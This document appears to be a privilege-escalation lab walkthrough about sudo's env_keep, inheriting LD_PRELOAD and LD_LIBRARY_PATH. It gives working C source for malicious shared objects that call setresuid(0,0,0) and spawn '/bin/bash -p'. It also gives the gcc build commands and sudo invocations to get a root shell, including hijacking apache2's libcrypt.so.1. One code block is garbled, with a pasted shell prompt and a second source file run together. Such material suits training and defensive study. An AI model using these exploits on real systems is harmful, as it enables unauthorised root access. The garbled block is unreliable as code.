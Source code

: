 # ‼ Sudo Env variables

Sudo can be configured to inherit certain environment variables from the user's environment.\
Check which environment variables are inherited (look for the env\_keep options):\
`sudo -l`\
LD\_PRELOAD and LD\_LIBRARY\_PATH are both inherited from the user's environment. LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.\
\---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Run ldd against the apache2 program file to see which shared libraries are used by the program:\
`ldd /usr/sbin/apache2`\
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
user@debian:~/tools/sudo$ cat library_path.c
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):\
`sudo LD_LIBRARY_PATH=/tmp apache2`\
A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library\_path.c code could be changed to make it work.
